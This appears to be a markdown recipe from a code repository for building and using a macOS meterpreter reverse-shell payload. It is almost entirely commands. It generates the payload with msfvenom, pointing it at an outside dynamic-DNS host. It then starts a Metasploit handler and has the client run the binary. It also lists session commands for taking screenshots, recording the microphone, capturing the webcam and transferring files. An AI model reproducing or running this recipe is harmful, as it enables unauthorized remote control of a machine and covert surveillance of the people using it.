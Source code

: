 # Reverse SSH (osx/x64)

### Ingredients


### Description 

- SSH on remote pi

```
ssh [USER]@[HOSTNAME] -p [SSH_PORT]
ssh root@pipeter.asuscomm.com -p 22222
```

- Generate Payload

```
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=pipeter.asuscomm.com LPORT=4444 -f macho -o payload
chmod +x payload
```

- Send payload to client

```
i.e.
scp -P 22222 root@pipeter.asuscomm.com:payload ./
```


- Open msf

```
# getip (local ip)

msfconsole -q
use exploit/multi/handler
set payload osx/x64/meterpreter_reverse_tcp
set lhost $(getip)
set lport 4444
set ExitOnSession false
run -j
jobs
```

- run payload on client side

```
./payload
```

- On pi

```
sessions
sessions [SESSION_NUM]
i.e
sessions 1
help
```
### Cmd Example

#### Screenshot

```
screenshot
upload [SCREENSHOT_NAME]
shell
whoami
open [SCREENSHOT_NAME]
```

#### Sound

```
mic_list
mic_start [MIC_NUMBER]
mic_stop
play [WAV_FILE_NAME]
```

#### Webcam

```
webcam_list
webcam_snap [WEBCAM_NUMBER]
upload [SNAPNAME_NAME]
shell
whoami
open [SNAPNAME_NAME]
```

#### Transfer

```
upload [FILE]
download [FILE]
```